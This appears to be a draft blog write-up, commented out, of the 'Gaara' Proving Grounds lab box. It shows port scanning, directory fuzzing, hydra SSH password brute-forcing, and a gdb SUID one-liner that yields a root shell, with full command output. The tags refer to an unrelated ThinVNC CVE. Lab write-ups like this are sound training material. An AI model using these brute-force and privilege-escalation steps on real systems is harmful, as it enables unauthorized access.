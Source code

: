 ```yaml
---
layout: post
title: "Gaara"
date: 2022-05-12
image: ../../assets/img/Posts/gaara.png
categories: [Proving Grounds, Easy]
tags: [metasploit, ThinVNC, CVE-2019-17662, THINVNC 1.0B1 PATH TRAVERSAL]
---
```


# Coming soon

<!-- We first begin by performing a simple nmap scan to determine what ports are open and services running behind them.

```nmap
➜  nmap -sC -sV -p- -T4 192.168.85.142
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-10 07:12 EDT
Stats: 0:07:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 87.61% done; ETC: 07:21 (0:01:05 remaining)
Nmap scan report for 192.168.85.142 (192.168.85.142)
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 616.73 seconds
➜
```

Awesome, so we have Apache webserver running. Looking at the contents of the site, we get a static image with nothing much of help.

![image](https://user-images.githubusercontent.com/58165365/167616092-c256ca70-e892-4b2b-bec0-db56c05b41ef.png)

So i decided to bruteforce hidden directories and found `/Cryoserver`

```bash
➜  ffuf -u http://192.168.85.142/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.85.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10]
Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303]
:: Progress: [233315/1273833] :: Job [1/1] :: 238 req/sec :: Duration: [0:17:40] :: Errors: 0 ::^Z
[1]  + 2495 suspended  ./ffuf -u http://192.168.85.142/FUZZ -w

```

![image](https://user-images.githubusercontent.com/58165365/167617490-031370a4-3f90-4fb5-80f0-15dc023037c5.png)

Scrolling down on what seemed like a blank page, revealed three hidden directories named after characters in the Naruto Anime.




curl http://192.168.85.142/iamGaara  | grep -oE '\w+' | sort -u > gara.txt


We get a base58 encoded string which we can easily decode using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz'))

![image](https://user-images.githubusercontent.com/58165365/167616744-ef7c148d-9b90-41f1-85ca-13a4ec244aa2.png)

Looks like we found a username & password. Since we did not come across a login screen, i tried to ssh into the machine using the creds but unfortunately they did not work. So i thought, since we have a username that we have come across severaly while enumerating, how about we try bruteforce ssh with hydra?


```bash
➜  hydra -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.85.142 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-10 07:19:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.85.142:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 16 active
[22][ssh] host: 192.168.85.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-05-10 07:21:54
```

Oh yes. We now have a valid password. Lets ssh and get our first flag.


```bash
➜  ssh gaara@192.168.85.142
gaara@192.168.85.142's password:
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ id
uid=1001(gaara) gid=1001(gaara) groups=1001(gaara)
gaara@Gaara:~$ ls -la
total 32
drwxr-xr-x 2 gaara gaara 4096 Apr 27  2021 .
drwxr-xr-x 3 root  root  4096 Dec 13  2020 ..
lrwxrwxrwx 1 root  root     9 Mar 30  2021 .bash_history -> /dev/null
-rw-r--r-- 1 gaara gaara  220 Dec 13  2020 .bash_logout
-rw-r--r-- 1 gaara gaara 3526 Dec 13  2020 .bashrc
-rw-r--r-- 1 gaara gaara   32 Apr 27  2021 flag.txt
-rw-r--r-- 1 gaara gaara   33 May 10 07:11 local.txt
-rw-r--r-- 1 gaara gaara  807 Dec 13  2020 .profile
-rw------- 1 gaara gaara  102 Dec 13  2020 .Xauthority
gaara@Gaara:~$ cat flag.txt
Your flag is in another file...
gaara@Gaara:~$ wc local.txt
 1  1 33 local.txt
```

We can then try find a way to privesc. In this case i looked at binaries with SUID bit set and `gdb` stood out.


```
gaara@Gaara:~$ find / -type f -perm -04000 -ls 2>/dev/null
    12750     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   135600     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    16097    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    22040   7824 -rwsr-sr-x   1 root     root        8008480 Oct 14  2019 /usr/bin/gdb
    19754    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
    21629   7396 -rwsr-sr-x   1 root     root        7570720 Dec 24  2018 /usr/bin/gimp-2.10
    22047     36 -rwsr-xr-x   1 root     root          34896 Apr 22  2020 /usr/bin/fusermount
       53     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
       52     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
       55     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
     3436     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
     3583     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
       56     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
     3908     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     3910     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
```

Doing a quick lookup at [GTFO bins](https://gtfobins.github.io/gtfobins/gdb/#capabilities), we get a way a way to create a backdoor to maintain privileged access by manipulating its own process UID.

```
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls -la
total 28
drwx------  3 root root 4096 May 10 07:11 .
drwxr-xr-x 18 root root 4096 Dec 13  2020 ..
lrwxrwxrwx  1 root root    9 Mar 30  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 May 10 07:11 proof.txt
-rw-r--r--  1 root root   32 Apr 27  2021 root.txt
drwxr-xr-x  2 root root 4096 Mar 30  2021 .ssh
# cat root.txt
Your flag is in another file...
# wc root.txt
 1  6 32 root.txt
#
``` -->

